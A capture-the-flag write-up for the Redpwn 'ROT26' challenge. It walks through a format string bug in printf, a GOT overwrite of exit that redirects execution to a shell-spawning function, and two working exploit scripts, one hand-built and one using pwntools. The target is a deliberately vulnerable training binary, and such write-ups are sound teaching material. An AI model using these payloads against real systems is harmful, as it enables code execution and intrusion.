


## Redpwn CTF ROT26 Challenge

### Challenge Info

__ctf__: `Redpwn` \\
__challenge__: `ROT26` \\
__category__: `Pwn` \\
__solves__: `203/926` \\
__points__: `50` \\
__solver__: `ordbl0ke` \\ 
__description__: `written by: blevy, nc chall2.2019.redpwn.net 4003` \\
__keywords__: `format string vulnerability, overwrite GOT, C` \\
__original write up__: [`link name`](github or delete whole line if only a blogpost ) \\

---

For this challenge we were given two files: source `rot26.c` and `rot26` compiled binary.

### Write-up

Without further ado, let's examine the source `rot26.c`:

```C
#include <ctype.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char *ualphabet = "ABCDEFGHIJKLMNOPQRSTUVWXYZ";
char *lalphabet = "abcdefghijklmnopqrstuvwxyz";

char *rot26(char *dst, char *src, size_t n)
{
	int i, x;

	for (i = 0; i < n; i++) {
		if (isupper(src[i])) {
			x = ualphabet[((src[i] - 'A') + 26) % strlen(ualphabet)];
		} else if (islower(src[i])) {
			x = lalphabet[((src[i] - 'a') + 26) % strlen(lalphabet)];
		} else {
			x = src[i];
		}
		dst[i] = x;
	}
}

void winners_room(void)
{
	puts("Please, take a shell!");
	system("/bin/sh");
	exit(EXIT_SUCCESS);
}

int main(void)
{
	char buf[4096];
	char sanitized[4096];

	setbuf(stdout, NULL);
	setbuf(stdin, NULL);
	setbuf(stderr, NULL);

	fgets(buf, sizeof(buf), stdin);
	rot26(sanitized, buf, sizeof(sanitized));
	printf(sanitized);
	exit(EXIT_FAILURE);
}

```

#### Vulnerability

Provided binary reads input from the user (with correctly used `fgets` here, so no overflow for us) into `buf`, then applies ROT26 on it (which effectively does nothing) and stores the result into `sanitized`, and finaly uses vulnerable `printf(sanitize)` to reflect input back to user. Another important thing to notice is the `winners_room` function. If we successfully redirect the code execution to this function, it will give us the shell for free.

#### Exploitation

So we have a format string vulnerability present, cool. We know that with this kind of vulnerability we can do memory reads and writes, but how do we spawn our shell? We can see that immediately after the vulnerable `printf` call, `exit` function is called. Thus, we can use our vulnerability to overwrite `exit`'s entry  in `GOT`(Global offset table) to the address of `winners_room` function and we're done. If you're not familiar with format string vulnerability or what GOT overwrite is, please check references. All the necessary addresses can be obtained with `radare2` tool or `pwnlib`'s `ELF`.  

#### Trouble 

What seemed a straightforward exploit got me into trouble for a while. I used python to compose my exploit and saved it into a file `/tmp/payload`. Then I ran `rot26` with redirected input and instead of shell I got Segmentation fault.



When I checked in `gdb`, it seemed correct, the `/bin/sh` got executed. However, I forgot about a little problem with `fgets`. My interpretation of what happened was that the shell got spawned with input still redirected, but all it got was EOF, so it immediately shut down.

To solve this, I used a slightly different way of passing the payload to executable:
```bash
(cat /tmp/payload; cat) | ./rot26
```
Since cat without parameters waits for user input, I was able to hold on to the shell session and get my flag. (the screen is taken from local machine, so there's no flag present, just listing of my directory)  



#### Exploits

During solving this challenge, I spent significant amount of time crafting my payload manually. After the CTF ended and I read write ups of other contenders, I found out that there is a support for exploiting format string vulnerability in `pwntools`. So I decided to leave my manual exploit that I used during the CTF here. But I also wanted to experiment a little bit with the `pwntools` so I provide a cleaner and nicely readable exploit too.  

##### Original Exploit
In my original exploit, I only realised the true problem with `fgets` after I thought the problem was with `exit` being overwritten. So this exploit overwrites two `GOT` entries - `exit`'s and `strlen`'s. This causes the executable to return to `main` when `exit` is called and `winners_room` is spawned when the next `strlen` call comes.
```python
from pwn import *

# Writes main's address to exit's GOT entry an winners_room address to strlen's GOT entry

exit_got_addr = 0x804a020
strlen_got_addr = 0x804a024
winners_room_addr = 0x8048737
main_addr = 0x8048777

offset = 6*' %p'

payload = p32(exit_got_addr) 
payload += p32(exit_got_addr) # 1st n-write
payload += p32(exit_got_addr)
payload += p32(exit_got_addr+1) # 2nd n-write
payload += p32(exit_got_addr)
payload += p32(exit_got_addr+2) # 3rd n-write
payload += p32(exit_got_addr) 
payload += p32(exit_got_addr+3) # 4th n-write
payload += p32(exit_got_addr) 
payload += p32(strlen_got_addr)
payload += p32(exit_got_addr) 
payload += p32(strlen_got_addr+1)
payload += p32(exit_got_addr) 
payload += p32(strlen_got_addr+2)
payload += p32(exit_got_addr) 
payload += p32(strlen_got_addr+3)
payload += offset 
payload += '%9x%n' # makes the total number of written bytes 0x77 and writes this to 1st write
payload += '%16x%n' # makes the total number of written bytes 0x87 and writes to 2nd write
payload += '%125x%n' # writes 0x04 to exit_got_addr +2 and 0x01 to exit_got_addr +3
payload += '%260x%n' # writes 0x08 to exit_got_addr +3 
payload += '%47x%n' # writes 0x37 to strlen_got_addr
payload += '%80x%n' # writes 0x87 to strlen_got_addr+1
payload += '%125x%n'# writes 0x04 to strlen_got_addr+2
payload += '%260x%n'# writes 0x08 to strlen_got_addr+3
print payload
```

##### pwntools Exploit
And this as simple as it can get:

```
from pwn import *

elf = ELF('./rot26')
exit_got_addr = elf.got['exit']
winners_room_addr = elf.sym['winners_room']

p = process('./rot26')

writes = {exit_got_addr: winners_room_addr}
payload = fmtstr_payload(7, writes, 0)

p.sendline(payload)
p.interactive()
```

#### References
1. format string vulnerability http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf
2. radare2 https://github.com/radare/radare2
3. pwntools http://docs.pwntools.com/en/stable/
4. GOT overwrite https://www.youtube.com/watch?v=t1LH9D5cuK4